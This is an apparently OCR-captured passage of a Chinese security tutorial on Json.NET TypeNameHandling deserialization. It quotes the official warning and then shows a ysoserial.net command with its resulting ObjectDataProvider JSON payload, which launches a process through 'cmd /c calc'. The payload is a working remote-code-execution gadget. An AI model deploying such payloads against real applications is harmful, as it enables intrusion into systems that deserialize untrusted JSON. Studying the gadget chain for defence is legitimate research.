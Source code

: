 ```csharp
            string v = JsonConvert.SerializeObject(person);
            string v1 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
            {
                TypeNameHandling = TypeNameHandling.None
            });
```

根据[文档](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)，TypeNameHandling有以下几个枚举值

![image-20210517095525752](Json.Net.assets/image-20210517095525752.png)

除了None外，都会包含type信息。文档中标记了TypeNameHandling会产生安全问题，应该使用binder进行类型绑定。

> [TypeNameHandling](https://www.newtonsoft.com/json/help/html/P_Newtonsoft_Json_JsonSerializer_TypeNameHandling.htm) should be used with caution when your application deserializes JSON from an external source. Incoming types should be validated with a custom [SerializationBinder](https://www.newtonsoft.com/json/help/html/P_Newtonsoft_Json_JsonSerializer_SerializationBinder.htm) when deserializing with a value other than None.

而本文就是针对TypeNameHandling进行讲解，当TypeNameHandling非None时，可以传入自定义json触发RCE。

# 攻击链ObjectDataProvider

通过ObjectDataProvider包装Process进行RCE。yso生成如下

```json
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -g ObjectDataProvider -f json.net -c calc
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
